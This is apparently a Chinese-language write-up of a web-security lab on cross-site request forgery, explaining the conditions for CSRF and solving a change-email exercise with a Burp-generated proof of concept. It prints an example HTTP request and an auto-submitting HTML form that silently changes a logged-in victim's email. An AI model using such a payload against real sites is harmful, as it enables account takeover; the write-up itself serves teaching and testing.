




# 题意


修改邮箱地址
# 解题思路

step1:测试修改邮箱功能

登录账号后对邮箱进行修改，获取对应的url


step2:用burp生成CSRFpoc



step3:将生成的poc复制到expolit server中，点击deliver即可


# 知识点
## CSRF
CSRF(跨站请求伪造),攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

## CRSF如何执行

CSRF实现需要以下三个条件

1. 某个特定的操作。即攻击者需要伪装成用户实现的操作，像是特权操作，如修改其他用户的权限，修改用户密码等。
2. 基于cookie的会话处理。执行该操作涉及发出一个或多个 HTTP 请求，应用程序仅依赖会话 cookie 来识别发出请求的用户。没有其他机制来跟踪会话或验证用户请求。
3. 没有未知的请求参数。请求中不包含任何攻击者不能决定或者猜解的参数。例如，对于修改密码这项功能来说，如果修改密码需要知道原密码，那么这项功能就无法被CSRF攻击。
   

例如，假设应用程序包含一个让用户修改账户中的邮件地址的功能，当用户进行这个操作时，会发送如下http请求：
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
这就满足了CSRF的要求：
修改用户的邮件地址是攻击者感兴趣的，攻击者可以借此修改密码从而控制整个账户。

应用程序只用ookie来进行身份验证，没有其他token或者机制来追踪用户会话。


攻击者可以轻易地确定请求参数的值。

满足这些条件，攻击者可以构建包含如下HTML的网页：

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

受害者访问该页面后会：

攻击者的网页会向漏洞站点发送http请求，如果用户已经登录了漏洞站点，浏览器会在请求中自动包含cookie，漏洞站点会正常处理该请求，修改受害者的邮箱地址。

